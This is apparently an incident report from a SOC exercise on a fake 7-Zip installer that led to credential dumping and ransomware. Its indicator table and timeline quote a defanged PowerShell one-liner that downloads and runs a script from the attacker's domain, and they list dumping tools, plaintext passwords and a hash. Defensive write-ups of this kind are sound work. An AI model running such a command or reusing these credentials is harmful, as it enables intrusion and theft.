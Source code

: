 # 🛡️ Security Incident Report: Malicious Software Execution Leading to Credential Compromise & Ransomware Deployment

## 📌 Incident Summary
**Incident Date:** September 26, 2023  
**Affected User:** Perry Parsons  
**Affected Workstation:** WKSTN-03  
**Attack Type:** Malware Infection & Ransomware Deployment  
**Root Cause:** Downloading software from a malicious website  

---
## 🔍 Indicators of Compromise (IOCs)

| **Indicator** | **Value** |
|--------------|-----------|
| **Malicious URL** | `http://www.7zipp.org/a/7z2301-x64[.]msi` |
| **IP Address of Malicious Domain** | `206[.]189[.]34[.]218` |
| **PID of Malicious Software Execution** | `2532` |
| **Suspicious Command Line Execution** | `powershell[.]exe iex(iwr http[:]//www[.]7zipp[.]org/a/7z[.]ps1 -useb)` |
| **Legitimate Installer Path** | `C[:]\Windows\Temp\7zlegit[.]exe` |
| **Installed Malicious Service** | `7zService` |
| **User Account Running the Service** | `SYSTEM` |
| **Credential Dumping Tool Used** | `Invoke-PowerExtract` |
| **Compromised Credential Pair** | `james[.]cromwell:852A0B8BD4E00564128E0A5EA2BC4CF` |
| **Reset Password of Another User** | `pwn3dpw!!!` |
| **Workstation Where New Account Was Used** | `WKSTN-02` |
| **Newly Discovered Credentials** | `SSF\itadmin:NoO6@39Sk0!` |
| **PowerShell Script for Hash Dumping** | `Invoke-SharpKatz[.]ps1` |
| **AES256 Hash of Domain Admin Credentials** | `f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534` |
| **Total Number of Encrypted Files** | `46` |

---
## 📅 Incident Timeline

1. **User Action:** Perry downloaded and executed a malicious `7zip` installer from `http[:]//www[.]7zipp[.]org/a/7z2301-x64[.]msi`.
2. **Malicious Payload Execution:** Process `powershell.exe iex(iwr http[:]//www[.]7zipp[.]org/a/7z[.]ps1 -useb)` executed the downloaded script.
3. **Malware Installation:** Service `7zService` was installed and executed by `SYSTEM`.
4. **Credential Dumping:** `Invoke-PowerExtract` was used to dump LSASS data.
5. **Privilege Escalation:** The attacker used `james.cromwell:852A0B8BD4E00564128E0A5EA2BC4CF` credentials to escalate access.
6. **Account Manipulation:** Password reset for `anna.jones` to `pwn3dpw!!!`.
7. **Lateral Movement:** Attacker moved from `WKSTN-03` to `WKSTN-02`.
8. **New Credentials Discovered:** `SSF\itadmin:NoO6@39Sk0!`.
9. **Domain Admin Compromise:** `Invoke-SharpKatz[.]ps1` used to extract domain admin hashes.
10. **Ransomware Deployment:** `bomb[.]exe` encrypted 46 files.

---
## ✅ Recommendations

1. **Block Malicious Domains & IPs** 🚫
   - Add `7zipp.org` and `206.189.34.218` to the organization's deny list.

2. **Endpoint Protection & Monitoring** 🛡️
   - Deploy endpoint detection tools to monitor and prevent suspicious executions.
   - Implement Sysmon logging for enhanced visibility.

3. **User Awareness & Training** 🎓
   - Conduct phishing and safe browsing awareness programs.
   - Educate users on verifying software sources before downloading.

4. **Credential & Access Management** 🔑
   - Implement multi-factor authentication (MFA) for privileged accounts.
   - Conduct regular password audits and enforce strong password policies.

5. **Incident Response Plan Enhancement** 📜
   - Define clear response procedures for credential dumping and lateral movement.
   - Run red team simulations to test the effectiveness of security controls.

6. **Network Segmentation & Least Privilege** 🔍
   - Restrict privileged account access to only necessary resources.
   - Segment critical infrastructure to prevent lateral movement.

7. **Backup & Recovery Strategy** ♻️
   - Ensure regular backups are stored offline and tested for integrity.
   - Develop an incident recovery playbook to quickly restore encrypted files.

---
## 🔚 Conclusion

This incident highlights the dangers of downloading software from unverified sources. The attacker leveraged a fake `7zip` installer to gain access, escalate privileges, dump credentials, and eventually deploy ransomware. The compromise of multiple user accounts emphasizes the need for robust access controls and proactive monitoring. Implementing the recommended actions will help mitigate future risks and strengthen the organization’s overall security posture.

---
**Prepared by:** jfpineda79  
**Date:** February 7, 2025  
**Security Operations Center (SOC)** 🔒

